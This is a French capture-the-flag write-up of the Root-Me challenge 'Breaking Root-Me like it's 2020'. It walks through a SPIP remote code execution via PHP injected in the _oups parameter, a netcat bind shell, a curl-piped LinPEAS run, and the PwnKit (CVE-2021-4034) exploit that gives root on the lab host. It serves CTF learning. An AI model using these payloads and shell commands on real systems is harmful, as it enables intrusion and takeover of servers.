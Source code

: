 ```yaml
---
title: Réaliste - Breaking Root-Me like it’s 2020
meta_title: ""
description: Réaliste - Breaking Root-Me like it’s 2020
date: 2024-06-19T18:00:00Z
image: /images/rootme_logo.png
categories:
  - Rootme
  - Réaliste
  - Moyen
author: Demat
tags:
  - web-server
  - php
  - remote-code-execution
  - spip
  - cms
  - privilege-escalation
draft: false
isSecret: true
---
```


## Description

### Énoncé

**Lien du challenge : [Réaliste - Breaking Root-Me like it’s 2020](https://www.root-me.org/fr/Challenges/Realiste/Breaking-Root-Me-like-it-s-2020)**

> #### Revivre le frisson d’une RCE sur root-me.org
>
> Hello ! Je suis content que tu aies renouvelé ta cotisation annuelle de 15€ !
>
> Voici ton accès au backend de root-me.org, utilise le à bon escient ! ;)
>
> ```text {linenos=table}
> goodguy@contrib.fr:StronkP4ZZ:)
> ```
>
> Le flag se situe dans /flag.txt
>
> #### Ressources associées
>
> - [https://www.spip.net/](https://www.spip.net/)
> - [https://thinkloveshare.com/en/hacking/rce_on_spip_and_root_me/](https://thinkloveshare.com/en/hacking/rce_on_spip_and_root_me/)
>

## Contexte

Il s'agit d'une faille qui a été découverte sur le site web de Root-Me en 2020. C'est un challenge de type RCE (Remote Code Execution) sur un serveur web. Le but est de trouver une faille permettant d'exécuter du code arbitraire sur le serveur distant, afin de lire le contenu du fichier `/flag.txt`.

## Exploitation

### Premiers pas

Pour commencer, on démarre le challenge sur la plateforme CTF All The Day. Pour ma part, il est hébergé sur le serveur `ctf06.root-me.org`.

En visitant `http://ctf06.root-me.org/`, on peut voir que le site web du challenge est un clone minimaliste de Root-Me, basé sur SPIP. Il s'agit d'un système de gestion de contenu (CMS) libre, écrit en PHP et distribué sous licence GPL, qui permet de créer et de gérer un site web dynamique.

Vu qu'un compte de contributeur est fourni, on peut se connecter à l'interface de publication du CMS avec le login `goodguy@contrib.fr` et le mot de passe `StronkP4ZZ:)`.

### Exécution de code arbitraire : article de Laluka

Le second lien fourni dans l'énoncé pointe vers un article de blog qui explique comment l'auteur, Laluka, a réussi à exploiter plusieurs failles de sécurité sur le site web de Root-Me en 2020.
Il a trouvé de multiples vulnérabilités, mais celle qui nous intéresse est la RCE détaillée [vers la fin](https://thinkloveshare.com/hacking/rce_on_spip_and_root_me/#xss-on-oups) de l'article.

Il y donne un exemple de payload qui permet d'exécuter une commande sur le serveur, et d'en afficher le résultat dans la page. Adaptée à notre cas, l'URL est la suivante :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='<?php echo fread(popen("id", "r"), 300);?>
```

*A priori*, rien de spécial. Cependant, si on inspecte le code source de la page, on peut voir que l'injection a fonctionné :
![RCE basique](/images/rootme2020/oups-injection.png)

C'est un bon début, mais ce n'est pas très pratique. On peut améliorer le payload pour afficher proprement le résultat de la commande directement sur la page, et augmenter la taille du buffer pour lire plus de 300 caractères :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("id", "r"), 1048576);?></pre><br style='
```

Le résultat est alors bien plus simple à lire :
![RCE plus jolie](/images/rootme2020/oups-injection-pretty.png)

Peut-on directement lire le contenu du fichier `/flag.txt` ? Regardons déjà les permissions du fichier :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("ls -lA /", "r"), 1048576);?></pre><br style='
```

```text {hl_lines=[7,17]}
total 1823824
lrwxrwxrwx   1 root root          7 Jul 31  2020 bin -> usr/bin
drwxr-xr-x   4 root root       4096 Jan  9  2021 boot
drwxr-xr-x   2 root root       4096 Jan  9  2021 cdrom
drwxr-xr-x  18 root root       3980 Jun 20 13:58 dev
drwxr-xr-x  96 root root       4096 Jan 25  2021 etc
-rwx------   1 root root         21 Jan 12  2021 flag.txt
drwxr-xr-x   3 root root       4096 Jan  9  2021 home
lrwxrwxrwx   1 root root          7 Jul 31  2020 lib -> usr/lib
lrwxrwxrwx   1 root root          9 Jul 31  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root          9 Jul 31  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root         10 Jul 31  2020 libx32 -> usr/libx32
drwx------   2 root root      16384 Jan  9  2021 lost+found
drwxr-xr-x   2 root root       4096 Jul 31  2020 media
drwxr-xr-x   2 root root       4096 Jul 31  2020 mnt
drwxr-xr-x   3 root root       4096 Jan  9  2021 opt
-r--------   1 root root         33 Jun 20 13:59 passwd
dr-xr-xr-x 148 root root          0 Jun 20 13:58 proc
drwx------   5 root root       4096 Jan 12  2021 root
drwxr-xr-x  28 root root        840 Jun 20 14:03 run
lrwxrwxrwx   1 root root          8 Jul 31  2020 sbin -> usr/sbin
drwxr-xr-x   6 root root       4096 Jan  9  2021 snap
drwxr-xr-x   2 root root       4096 Jul 31  2020 srv
-rw-------   1 root root 1867513856 Jan  9  2021 swap.img
dr-xr-xr-x  13 root root          0 Jun 20 13:58 sys
drwxrwxrwt   2 root root       4096 Jun 20 13:58 tmp
drwxr-xr-x  14 root root       4096 Jul 31  2020 usr
drwxr-xr-x  14 root root       4096 Jan  9  2021 var
```

Le fichier `/flag.txt` appartient à `root` et n'est accessible en lecture que pour son propriétaire. Il en va de même pour `/passwd`, nécessaire pour valider la box. Le seul moyen de lire ces fichiers est donc d'effectuer une élévation de privilèges.

### Shell interactif

Essayons déjà d'obtenir un shell interactif pour nous faciliter la tâche. Pour cela, on va utiliser `nc` pour ouvrir un *bind shell* sur le port 31337, par le biais d'une FIFO (named pipe) :

```sh
nohup sh -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i|nc -lp 31337 >/tmp/f'
```

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("nohup sh -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i|nc -lp 31337 >/tmp/f'", "r"), 1048576);?></pre><br style='
```

On peut maintenant se connecter au shell interactif avec [pwncat]({{< ref "/outils/pwncat-cs/" >}}) :
![Shell interactif avec pwncat](/images/rootme2020/pwncat-1.png)

### Élévation de privilèges

Essayons de trouver une faille d'élévation de privilèges grâce à LinPEAS :

```sh
$ curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
[...]
╔══════════╣ Executing Linux Exploit Suggester
[...]
[+] [CVE-2021-4034] PwnKit
[...]
```

Entre autres, LinPEAS mentionne la faille [CVE-2021-4034 *"PwnKit"*](https://cyberwatch.fr/cve/cve-2021-4034/), qui affecte Polkit et permet d'obtenir un shell root. Sur Ubuntu 20.04, elle affecte les versions de Polkit inférieures à la version `0.105-26ubuntu1.2`. Vérifions quelle version est installée sur la machine :

```sh
$ dpkg -s policykit-1 | fgrep 'Version'
Version: 0.105-26ubuntu1
```

Bingo ! La version de Polkit semble vulnérable. On peut donc essayer d'exploiter la faille pour obtenir un shell root. J'ai trouvé un exploit fonctionnel sur [GitHub](https://github.com/berdav/CVE-2021-4034) :

```text {hl_lines=["6-11"]}
$ cd /tmp
$ git clone https://github.com/berdav/CVE-2021-4034.git
$ cd CVE-2021-4034
$ make
$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /flag.txt
Can[...-censuré-...]
# cat /passwd
df811f94e1e3b4a06f2015a33ec47dc4
```

Et voià, il ne reste plus qu'à valider la box sur la plateforme CTF-ATD et à soumettre le flag !
